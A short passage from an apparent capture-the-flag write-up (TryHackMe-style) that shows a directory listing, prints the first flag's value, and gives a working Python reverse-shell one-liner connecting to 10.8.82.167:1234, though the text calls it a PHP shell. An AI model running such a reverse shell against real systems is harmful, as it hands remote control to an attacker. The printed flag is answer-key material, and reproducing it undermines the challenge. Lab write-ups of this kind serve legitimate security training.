 Performing ls, we can see: ![](images/2020-08-24-21-23-33.png)

that the first flag is flag.php, in this directory.

![](images/2020-08-24-21-24-07.png)

flag1.php : <?php
$flag_1 = "THM{Th1s_1s_N0t_4_Catdog_ab67edfa}"
?>

Lets upload a php reverse shell:

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.82.167",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
